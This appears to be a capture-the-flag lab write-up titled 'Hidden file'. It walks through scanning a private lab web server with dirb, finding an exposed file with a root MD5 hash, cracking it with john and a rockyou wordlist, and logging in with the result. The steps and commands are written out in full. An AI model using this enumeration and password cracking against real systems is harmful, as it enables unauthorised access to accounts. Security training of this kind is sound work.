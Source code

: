 # Hidden file

Scan the website with dirb and we get this:

```
 ==> DIRECTORY: http://192.168.64.3/admin/
 ==> DIRECTORY: http://192.168.64.3/whatever/
```

In /whatever we find a file containing this:

```
root:437394baff5aa33daa618be47b75cb49
```

Brute force the hash with john:

```
# john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt flag.txt
qwerty123@       (?)
```

Now go to /whatever and just fill the form with the creds we get.
